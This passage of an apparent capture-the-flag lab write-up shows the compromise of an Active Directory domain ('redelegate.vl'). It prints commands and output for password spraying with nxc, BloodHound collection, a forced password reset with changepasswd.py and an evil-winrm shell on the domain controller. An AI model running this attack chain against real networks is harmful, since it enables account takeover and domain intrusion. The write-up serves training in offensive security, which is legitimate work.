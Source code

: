 ## Getting a Foothold

Now that we have a list of users, we can spray the password scheme that we learned about earlier against those users:

```terminal
nxc smb redelegate.vl -u users.txt -p passwords.txt
...
SMB         10.10.100.3     445    DC               [+] REDELEGATE\Marie.Curie:***2024!
```

This leads to our first domain user credentials. At this point we can do a lot more enumeration like for example checking shares authenticated and gathering bloodhound data. First we gather bloodhound data:

```terminal
nxc ldap redelegate.vl -u marie.curie -p '***2024!' --bloodhound -c all --dns-server 10.10.100.3
SMB         10.10.100.3     445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:redelegate.vl) (signing:True) (SMBv1:False)
LDAP        10.10.100.3     389    DC               [+] redelegate.vl\marie.curie:Fall2024!
LDAP        10.10.100.3     389    DC               Resolved collection methods: rdp, objectprops, group, session, psremote, dcom, trusts, localadmin, container, acl
LDAP        10.10.100.3     389    DC               Done in 00M 05S
LDAP        10.10.100.3     389    DC               Compressing output into ***
```

After loading it into bloodhound, we notice that there is a path to high value targets from our user:

![Bloodhound Path 01](bh-changepassword.png)

To change the password of that user, we can use the following command:

```
changepasswd.py redelegate/helen.frost@redelegate.vl -newpass 'Start123!' -altuser redelegate/marie.curie -reset -altpass '***2024!' -debug

[*] Setting the password of redelegate\helen.frost as redelegate\marie.curie
[*] Connecting to DCE/RPC as redelegate\marie.curie
[+] Successfully bound to SAMR
[+] Sending SAMR call hSamrSetNTInternal1
[*] Password was changed successfully.
[!] User no longer has valid AES keys for Kerberos, until they change their password again.

evil-winrm -i redelegate.vl -u "helen.frost" -p 'Start123!'

*Evil-WinRM* PS C:\Users\Helen.Frost\Documents>
```

This gives us a shell on the domain controller and our first flag.

## Privilege Escalation

First we check our privileges and notice that this user has the `SeEnableDelegationPrivilege`, which means that the user can enable delegation privileges on the domain.
